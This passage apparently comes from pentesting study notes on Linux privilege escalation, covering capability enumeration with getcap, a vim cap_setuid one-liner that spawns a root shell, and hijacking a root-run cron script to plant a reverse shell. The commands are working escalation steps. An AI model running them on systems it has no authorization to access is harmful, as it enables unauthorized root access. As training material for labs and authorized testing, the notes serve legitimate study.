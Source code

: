 <pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>getcap -r / 2>/dev/null
</strong>#Example results
/home/karen/vim = cap_setuid+ep
</code></pre>

{% hint style="info" %}
`vim` is used as an example, can be any other executable
{% endhint %}

***

* Check binary capabilities abuse on [_GTFOBins_](../tools-and-utilities.md#gtfobins)

{% code overflow="wrap" lineNumbers="true" %}
```bash
./vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'  #For python3
```
{% endcode %}

***

* Go to the binary location and execute the payload

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>cd /home/karen/vim
</strong>./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
#This will give you a root shell
</code></pre>

## <mark style="color:orange;">Abusing existing cron jobs</mark>

* Verify the executables set as cron jobs

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>cat /etc/crontab
</strong>#Example results
* * * * * root /home/user/file.sh
</code></pre>

{% hint style="info" %}
_file.sh_ is an arbitrary name used as an example. It can be another bash file or executable.
{% endhint %}

***

* Go to the file location and change the content to get a reverse shell

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>cd /home/user
</strong>nano file.sh    # The content will be replaced with a reverse shell script
</code></pre>

{% hint style="info" %}
To see some example scripts for a Reverse Shell, you can go[ here](../../../../scripting/reverse-shell.md)
{% endhint %}
